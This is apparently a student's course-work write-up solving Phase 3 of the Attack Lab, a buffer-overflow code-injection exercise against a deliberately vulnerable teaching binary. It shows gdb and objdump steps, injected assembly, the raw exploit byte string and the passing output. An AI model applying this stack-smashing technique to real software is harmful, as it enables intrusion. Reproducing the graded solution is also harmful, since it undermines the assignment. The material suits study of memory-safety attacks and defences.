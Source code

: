 ```yaml
---
category:
  - Course Work
tag:
  - Attack Lab
  - Computer Organization and Architecture
title: "Attack Lab: Phase 3"
---
```


###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) info registers rsp
rsp            0x55668cc0       0x55668cc0
```

###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401c78 <touch3>:
...
```

###### Write File `phase-3-inject.s`

```assembly
movq $0x55668cc8, %rdi
pushq $0x0000000000401c78
ret
```

###### Run

```bash
gcc -c phase-3-inject.s
objdump --disassemble phase-3-inject.o > phase-3-inject.asm
```

###### Read File `phase-3-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	48 c7 c7 c8 8c 66 55 	mov    $0x55668cc8,%rdi
   7:	68 78 1c 40 00       	pushq  $0x401c78
   c:	c3                   	retq
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Convert Cookie to String

The string should end with a `\0`.

```
33 61 39 61 36 63 32 66 00
```

###### Write File `phase-3.txt`

Place the string in the parent frame of `getbuf`, that is, `test` stack frames.

```
48 c7 c7 c8 8c 66 55
68 78 1c 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
33 61 39 61 36 63 32 66 00
```

###### Run

```bash
./hex2raw < phase-3.txt > phase-3.in
./ctarget -i phase-3.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch3!: You called touch3("3a9a6c2f")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

